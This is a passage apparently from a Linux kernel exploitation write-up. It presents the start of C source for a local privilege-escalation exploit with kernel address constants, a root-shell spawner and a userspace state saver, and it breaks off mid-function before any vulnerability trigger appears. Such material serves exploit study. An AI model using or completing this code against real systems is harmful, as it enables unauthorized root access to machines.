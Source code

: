 Here is the final code for the explotation with three different ways to obtain the root privilege. **The totabl reliability is about 75%.**

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>
#include <sched.h>
#include <sys/prctl.h>
#include <sys/ioctl.h>
#include <sys/socket.h>
#include <sys/mman.h>

/**
 * I - fundamental functions
 * e.g. CPU-core binder, user-status saver, etc.
 */

size_t kernel_base = 0xffffffff81000000, kernel_offset = 0;
size_t page_offset_base = 0xffff888000000000, vmemmap_base = 0xffffea0000000000;
size_t init_task, init_nsproxy, init_cred;

size_t direct_map_addr_to_page_addr(size_t direct_map_addr)
{
    size_t page_count;

    page_count = ((direct_map_addr & (~0xfff)) - page_offset_base) / 0x1000;
    
    return vmemmap_base + page_count * 0x40;
}

void err_exit(char *msg)
{
    printf("\033[31m\033[1m[x] Error at: \033[0m%s\n", msg);
    sleep(5);
    exit(EXIT_FAILURE);
}

/* root checker and shell poper */
void get_root_shell(void)
{
    if(getuid()) {
        puts("\033[31m\033[1m[x] Failed to get the root!\033[0m");
        sleep(5);
        exit(EXIT_FAILURE);
    }

    puts("\033[32m\033[1m[+] Successful to get the root. \033[0m");
    puts("\033[34m\033[1m[*] Execve root shell now...\033[0m");
    
    system("/bin/sh");
    
    /* to exit the process normally, instead of segmentation fault */
    exit(EXIT_SUCCESS);
}

/* userspace status saver */
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    __asm__("mov user_cs, cs;"
```